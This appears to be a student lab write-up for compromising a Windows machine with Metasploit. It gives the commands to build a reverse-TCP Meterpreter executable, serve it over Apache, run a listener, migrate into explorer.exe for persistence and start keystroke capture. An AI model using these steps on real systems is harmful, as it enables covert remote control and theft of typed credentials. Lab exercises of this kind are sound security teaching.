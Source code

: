 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:


### Find the attackers ip address using ifconfig

## OUTPUT :

![IFCONFIG](img/01.png)

### Create a malicious executable file fun.exe using msfvenom command

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT :

![PAYLOAD](img/02.png)

copy the fun.exe into the apache /var/www/html folder
sudo systemctl apache2 start

## Check the status of apache2

## OUTPUT :

![STATUS CHECK](img/03.png)

### Invoke msfconsole:
## OUTPUT:
![MSFCONSOLE](img/04.png)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

## OUTPUT :
![HELP](img/05.png)

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
## OUTPUT :

![RECENT](img/RECENT.png)

### WINDOWS :

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads

## BROWSE OUTPUT :

![SEARCH](img/G1.png)

## DOWNLOAD OUTPUT :

![DOWNLOAD](img/G2.png)

## COME BACK TO PARROT :

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

## OUTPUT :
![PS](<img/og 06.png>)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

## OUTPUT :

![NETSTAT](img/07.png)

## WINDOWS OUTPUT :
![TYPE](img/G3.jpg)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

## OUTPUT :

![TYPE OUTPUT](img/09.jpg)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
